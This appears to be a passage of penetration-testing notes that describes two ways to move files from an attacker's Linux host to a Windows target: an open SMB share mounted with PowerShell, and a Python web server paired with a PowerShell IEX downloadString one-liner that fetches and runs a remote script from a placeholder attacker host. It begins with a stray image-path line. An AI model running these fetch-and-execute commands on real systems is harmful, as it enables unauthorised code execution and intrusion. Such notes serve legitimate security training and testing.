 ##

### Method 4 (SMB Server) | Linux -> Windows

On **LOCAL**, first set up the ``/etc/samba/smb.conf`` file as follows (add on bottom of the page):

```
[SHARE_NAME]
   comment = File Drop
   path = <PATH_TO_SOURCE_DIR>
   browseable = yes
   read only = no
   guest ok = yes
```

Second, on **LOCAL**:

```
# smbserver.py <SHARE_NAME> . -smb2support               <- if gives error, try installing impacket again: pip3 install . (in impacket folder)

or

# impacket-smbserver <SHARE_NAME> $(pwd) -smb2support -user <USENAME> -password <PASSWORD>      <- username, password & smb2support flags are optional
```

On **TARGET**:

```
PS C:\> $pass = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential('test', $pass)
PS C:\> New-PSDrive -Name "<SHARE_NAME>" -PSProvider "FileSystem" -Root "\\<LHOST>\<SHARE_NAME>" -Credential $cred


PS C:\> net use \\<LHOST>\<SHARE_NAME>
PS C:\> net use copy \\<LHOST>\<SHARE_NAME>\<FILE_NAME>
```

##

### Method 5 (Standard IEX) | Linux -> Windows

On **LOCAL**:

```
# python -m SimpleHTTPServer <LPORT>

or

# python3 -m http.server <LPORT>
```

On **TARGET**:

```
PS C:\> IEX(New-Object Net.WebClient).downloadString('http://<LHOST>:<LPORT>/<FILE_NAME>')
PS C:\> Get-ChildItem -Path C:\ -Include <FILE_NAME> -Recurse        <- Find downloaded file (recursively)
```
